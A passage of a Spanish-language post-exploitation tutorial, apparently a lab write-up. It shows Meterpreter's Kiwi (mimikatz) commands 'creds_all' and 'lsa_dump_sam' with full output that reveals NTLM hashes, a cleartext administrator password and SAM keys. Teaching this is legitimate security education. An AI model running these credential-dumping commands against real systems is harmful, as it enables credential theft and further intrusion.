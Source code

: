 El **módulo Kiwi**, nos permite varias cosillas pues trabaja con **mimikatz**, pero lo más importante es que nos ayuda a obtener las **credenciales de los usuarios registrados, los hashes de SAM y los LSA_SECRETS**.

* **Dumpeando Credenciales**:

```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain    NTLM                              SHA1
--------       ------    ----                              ----
Administrator  haris-PC  cdf51b162460b7d5bc898f493751a0cc  dff1521f5f2d7436a632d26f079021e9541aba66

wdigest credentials
===================

Username       Domain     Password
--------       ------     --------
(null)         (null)     (null)
Administrator  haris-PC   ejfnIWWDojfWEKM
HARIS-PC$      WORKGROUP  (null)

kerberos credentials
====================

Username       Domain     Password
--------       ------     --------
(null)         (null)     (null)
Administrator  haris-PC   (null)
haris-pc$      WORKGROUP  (null)
```
De esta forma, obtuvimos las credenciales del **usuario administrador**, incluso la obtuvimos en texto claro.

* **Dumpeando los Hashes de SAM**:

```bash
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : HARIS-PC
SysKey : a749692f1dc76b46d7141ef778aa6bef
Local SID : S-1-5-21-319597671-3711062392-2889596693

SAMKey : a226d4d47dab3eb7a306c8b85ec359cb

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: cdf51b162460b7d5bc898f493751a0cc

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : haris
  Hash NTLM: 8002bc89de91f6b52d518bde69202dc6
```
Obtenemos el hash del **administrador** y del **usuario harris**.
